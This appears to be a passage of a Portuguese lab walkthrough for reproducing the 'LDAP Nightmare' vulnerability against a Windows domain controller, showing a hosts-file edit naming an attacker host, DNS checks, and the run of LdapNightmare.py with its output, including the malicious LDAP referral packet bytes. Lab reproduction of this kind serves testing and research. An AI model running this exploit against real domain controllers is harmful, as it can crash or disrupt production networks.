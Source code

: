 - Você também precisa configurar o IP do seu Kali no arquivo `hosts` do Windows. Você pode incluir manual ou usar o comando:

```powershell
Add-Content -Path "C:\Windows\System32\drivers\etc\hosts" -Value "172.16.0.250 sbattacker"
```

- Depois de configurado faça os testes abaixo:

```powershell
ping sbattacker # Veja se responde ao IP do seu Kali
# Veja se responde ao sbattacker (host configurado no smb do Kali)
nslookup -type=SRV _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.safebreachlabs.pro 
nslookup -type=SRV _ldap._tcp.dc._msdcs.safebreachlabs.pro 
```

<img src="nslookup.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">

- Se tudo ocorreu certo, seu ambiente está pronto para ser testado:

```bash
# No Kali execute:
python LdapNightmare.py 172.16.0.10 -d safebreachlabs.pro # 172.16.0.10 é o IP do meu DC

OUTPUT
------
[LDAP Nightmare:INFO] - Waiting for udp server to start...
[LDAP Nightmare:INFO] - NetLogon connected
[LDAP Nightmare:INFO] - Calling DsrGetDcNameEx2 now...
[LDAP Nightmare:INFO] - Connected to 172.16.0.10:49664
[LDAP Nightmare:INFO] - Sending DsrGetDcNameEx2 request...
[LDAP Nightmare:INFO] - Received LDAP request from NetLogon ('172.16.0.10', 51740)
[LDAP Nightmare:INFO] - Sending malicious LDAP response packet to ('172.16.0.10', 51740): b'0&\x02\x04\x02\x00\x00\x08e\x1e\n\x01\n\x04\x00\x04\x00\xa3\x15\x04\x13ldap://referral.com'
[LDAP Nightmare:INFO] - Successfuly triggered the vulnerability!
```
